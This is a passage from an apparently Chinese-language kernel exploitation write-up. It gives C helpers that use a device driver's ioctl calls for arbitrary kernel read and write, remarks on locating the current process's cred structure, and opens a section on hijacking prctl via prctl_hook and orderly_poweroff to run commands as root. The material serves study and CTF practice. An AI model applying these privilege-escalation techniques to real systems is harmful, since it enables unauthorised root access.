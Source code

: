 ```
 
 
int openDev(char* pos){
    int devFD;
    printf("[+] Open %s...\n",pos);
    if ((devFD = open(pos, O_RDWR)) < 0) {
        printf("    Can't open device file: %s\n",pos);
        exit(1);
    }
    return devFD;
}
 
 
 
void arbitrary_read(int devFD,int len,char *buf,size_t addr)
{
    arbWriteObj.len = len;
    arbWriteObj.data = buf;
    arbWriteObj.addr = addr;
    ioctl(devFD,111,&arbWriteObj);
}
 
void arbitrary_write(int devFD,int len,char *buf,size_t addr)
{
    arbWriteObj.len = len;
    arbWriteObj.data = buf;
    arbWriteObj.addr = addr;
    ioctl(devFD,222,&arbWriteObj);
} 
```

#### [](#▲注意事项)▲注意事项

不过这个如果不加判断 `if ((cred||0xff00000000000000) && (real_cred == cred))`搜索出来的 cred 可能就不是当前进程，具有一定概率性，具体原因不知，可能是搜索到了用户进程下的字符串？

 

![](https://pig-007.oss-cn-beijing.aliyuncs.com/img/20211020165201.png)

### 3. 劫持 prctl 函数

#### (1) 函数调用链

`prctl`->`security_task_prctl`->`*prctl_hook`

 

`orderly_poweroff`->`__orderly_poweroff`->`run_cmd(poweroff_cmd)`-> `call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC)`

#### (2) 前置知识

![](https://pig-007.oss-cn-beijing.aliyuncs.com/img/20211021000904.png)
